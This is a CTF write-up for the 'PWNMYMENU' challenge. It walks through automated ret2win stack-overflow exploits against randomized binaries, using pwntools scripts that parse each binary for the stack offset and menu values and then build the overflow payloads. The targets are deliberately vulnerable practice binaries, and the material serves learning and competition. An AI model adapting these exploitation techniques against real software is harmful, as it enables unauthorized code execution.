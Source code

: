 # PWNMYMENU

### 392 pts

```
Do you like automation ? Well, you will have to automate some ret2win in order to get the flag :)

nc pwn.dvc.tf 8890 
```

Files: [pwnmymenu.tgz](./pwnmymenu.tgz)

## Analysis

We were given the entire sources of the challenge (wich is kinda weird), so understanding what to exploit is pretty easy:
	- We need to pwn "lvl1" 5 times
	- "lvl2" 5 times
	- and "lvl3" 10 times

For each level, it's a simple ret2win with the size of the stack randomized in a range between [1; 511]. For the level 2 and 3, 2 other random variables are introduced.

When we connect to the netcat, we get the base64 of the current challenge compiled.

```
$ nc pwn.dvc.tf 8890
f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAAEBFAAAAAAABAAAAAAAAAACA4AAAAAAAAAAAAAEAAOAAN
AEAAHwAeAAYAAAAEAAAAQAAAAAAAAABAAEAAAAAAAEAAQAAAAAAA2AIAAAAAAADYAgAAAAAAAAgA
<snip>
AAAAACAEAAAAAAAAHQAAABMAAAAIAAAAAAAAABgAAAAAAAAACQAAAAMAAAAAAAAAAAAAAAAAAAAA
AAAAsDQAAAAAAABKAgAAAAAAAAAAAAAAAAAAAQAAAAAAAAAAAAAAAAAAABEAAAADAAAAAAAAAAAA
AAAAAAAAAAAAAPo2AAAAAAAAHwEAAAAAAAAAAAAAAAAAAAEAAAAAAAAAAAAAAAAAAAA=
aaaa
Enter your payload:
---------------------
---------------------
[+]    You failed exploiting my program ...
```

(Note that the IO is broken, the author probably forgot to flush the stdout when printing, so it makes everything a bit more annoying)

## Level 1

Basic ret2win, the only difficulty is to retrieve the size of the stack from the compiled binary. After the CTF, I saw that i could have used ELF.disasm from pwntools to have an easier way to retrieve the size of the stack. Anyway here's how I did it:

```python
e = ELF(f"level1.{n}", checksec=False)

vuln_func = e.sym["vuln"]
size = e.read(vuln_func+11, 2).hex()
if size[2] == "4":
	OFFSET = int(size[:2], 16)+8
else:
	size = size[2:] + size[:2]  # flemme de unpack
	OFFSET = int(size, 16)+8
```
In short: we go to the `vuln` function and look at the `sub rsp, 0x??` instruction at the function prologue. 
I'm curious on how the CPU knows the size of the instruction in order to know how to get the hex size, my dirty fix was to check if the next byte is "0x48" wich is the first byte of the next instruction. If so, I take the next 2 other bytes (max value is 511 so I just need 4 bytes, not all of them)

So here's the function that needs to be called 5 times:
```python
def payload_level1(n):
	e = ELF(f"level1.{n}", checksec=False)

	vuln_func = e.sym["vuln"]
	win_func = e.sym["win"]
	size = e.read(vuln_func+11, 2).hex()
	if size[2] == "4":
		OFFSET = int(size[:2], 16)+8
	else:
		size = size[2:] + size[:2]  # flemme de unpack
		OFFSET = int(size, 16)+8

	payload = b''.join([
		b"A"*OFFSET,
		p64(win_func)
	])

	return payload
```

## Level 2

Same as level 1, except now we have to find the `menu` value and the `submenu`, menu is in [1; 6] and submenu in [a, b, c, d, e]

This time, I find the instruction `cmp` for both of the values and extract the random value here. And for the stack, I just re-used the same code for the level 1.
```python3
main_func = e.sym["main"]
submenu_func = e.sym["submenu"]
menu = e.read(main_func+75, 2)[1]
submenu = e.read(submenu_func+55, 2)[1]
```
Nothing special, here's the function:

```python
def payload_level2(n):
	e = ELF(f"level2.{n}", checksec=False)

	main_func = e.sym["main"]
	win_func = e.sym["win"]
	submenu_func = e.sym["submenu"]
	vuln_func = e.sym["vuln"]

	menu = e.read(main_func+75, 2)[1]
	
	submenu = e.read(submenu_func+55, 2)[1]

	size = e.read(vuln_func+11, 2).hex()
	if size[2] == "4":
		OFFSET = int(size[:2], 16)+8
	else:
		size = size[2:] + size[:2]  # flemme de unpack
		OFFSET = int(size, 16)+8
	
	payload = b''.join([
		chr(menu).encode("utf-8"),
		b"\n",
		chr(submenu).encode("utf-8"),
		b"\n",
		b"A"*OFFSET,
		p64(win_func)
	])

	return payload
```

## Level 3

For this level, `menu` and `submenu` are longs, but at the end it's the exact same code as for level 2, I just had to change the offsets.

Here's the function:
```python
def payload_level3(n):
	e = ELF(f"level3.{n}", checksec=False)

	main_func = e.sym["main"]
	win_func = e.sym["win"]
	submenu_func = e.sym["submenu"]
	vuln_func = e.sym["vuln"]

	menu = e.read(main_func+78, 8)
	
	submenu = e.read(submenu_func+55, 8)
	
	size = e.read(vuln_func+11, 2).hex()
	if size[2] == "4":
		OFFSET = int(size[:2], 16)+8
	else:
		size = size[2:] + size[:2]  # flemme de unpack
		OFFSET = int(size, 16)+8

	payload = b''.join([
		menu,
		submenu,
		b"A"*OFFSET,
		p64(win_func)
	])

	return payload
```


## Script solve

You can find my entire script [here](./solve.py). When putting everything together I had a lot of trouble with the IO, sometimes it flushes when i'm supposed to read the base64 of the binary I tried to manage it, but it was not really working. I just had to restart the script until it didn't crashed to flag.